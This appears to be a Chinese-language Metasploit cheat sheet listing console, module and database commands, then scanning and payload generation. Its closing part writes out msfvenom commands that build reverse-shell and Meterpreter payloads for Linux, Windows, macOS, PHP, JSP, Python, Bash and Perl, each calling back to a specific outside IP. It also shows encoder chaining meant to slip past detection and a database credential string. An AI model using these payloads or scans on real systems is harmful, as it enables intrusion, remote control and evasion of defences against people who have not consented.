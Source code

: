#### 核心命令

```
?		帮助菜单
banner	修改一个横幅
cd		修改一个工作目录
color	颜色输出
connect 连接
debug	调试
exit	退出
features 查看新特性
get		获取上下文变量	
getg 	获取全局变量
grep
help 查看帮助
history 历史命令
load
quit 退出控制台
repeat 重复一个命令列表
route 通过会话的路由流量
save 保存活动数据存储
sessions 转存储会话,并显示详细信息
set 将上下文特定变量设置为一个值
setg 设置一个全局变量
sleep 对于制定的秒数 不做任何事情
spool 将控制台的输入写入文件以及屏幕
threads 查看和操作后台进程
tips  显示有用的生产力提示列表
unlod 卸载框架插件
unset 取消一个特定变量值
unsetg 取消一个多个全局变量的值
version 显示框架和控制台版本号
```

#### 模块的命令

```
advanced
back  退出当前模块
clearm 清除模块堆栈
info   显示一个或者多个模块的详细信息
listm   列出模块堆栈
loadpath 从路径搜索和加载模块
options  显示一个或者多个模块的全局选项
opom 从堆栈中弹出最新的模块并使其处于活动状态
previous  将先前加载的模块设置为当前模块
pushm
reload_all
search
show
use
```

#### 工作命令

```
handler
jobs 显示和管理作业
kill 杀死一个作业
rename_hob 重命名一个作业

```

#### 资源脚本命令

```
makerc 将自开始依赖
resource 资源运行储存在文件中的命令
```

#### 数据库后端命令

```
analyze		分析关于特定地址的数据库信息
db_connect	连接数据库
db_disconnect断开数据库
db_export
db_namp
db_rebuild_cache
db_remove
db_status	是否连接posttgresql数据库
hosts
loot
notes
services
vulns
workspace
```



#### 凭证后端命令

```
creds
```

### msf的扫描功能

#### 查看数据库配置信息

```
cat /opt/metasploit-framework/embedded/framework/config/database.yml
UE+BLPyl0Pwd+uV+At1KlZfnyQ+VWSeoBPt/GuuunOk=
db_connect msf:UE+BLPyl0Pwd+uV+At1KlZfnyQ+VWSeoBPt/GuuunOk=
db_status
```

![image-20200904163115974](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200904163115974.png)

![image-20200904163631206](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200904163631206.png)

#### 扫描功能

```
db_nmap -Pn 120.92.211.101
```

```
#扫描模块--通用的
search scanner
use auxiliary/scanner/portscan/tcp
设置参数步骤
```

#### msfvenom

```
p 指定payload
l 列出所有payload
n 设置payload大小
f 指定两种格式输出
e 使用编码器
a 精确的使用编码器
s 指定最大多少
b 减少体积
i 指定编码次数
c捆绑
o指定输出位置
```

```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=120.92.211.101 lport=8021  -f elf > test.elf
msfvenom -p windows/meterpreter/reverse_tcp lhost=120.92.211.101 lport=8021 -f exe > test.exe
msfvenom -p osx/x86/shell_reverse_tcp lhost=120.92.211.101 lport=8021 -f macho > test.macho
msfvenom -p php/meterpreter_reverse_tcp lhost=120.92.211.101 lport=8021 -f raw > test.php
msfvenom -p java/jsp_shell_reverse_tcp lhost=120.92.211.101 lport=8021 -f raw > test.jsp
msfvenom -p java/jsp_shell_reverse_tcp lhost=120.92.211.101 lport=8021 -f raw > test.war
msfvenom -p cmd/unix/reverse_python lhost=120.92.211.101 lport=8021 -f raw > test.py
msfvenom -p cmd/unix/reverse_bash lhost=120.92.211.101 lport=8021 -f raw > test.sh
msfverom -p cmd/unix/reverese_perl lhost=120.92.211.101 lport=8021 -f raw > test.pl
多编码加密 
Msfvenom -p windows/meterpreter/reverse_tcp    -f  raw    -e 
x86/jmp_call_additive LHOST=IP> | msfvenom -e x86/shikata_ga_nai -a x86 – 
platform windows -f exe > 1.exe
```

#### 捆绑技术生成

省



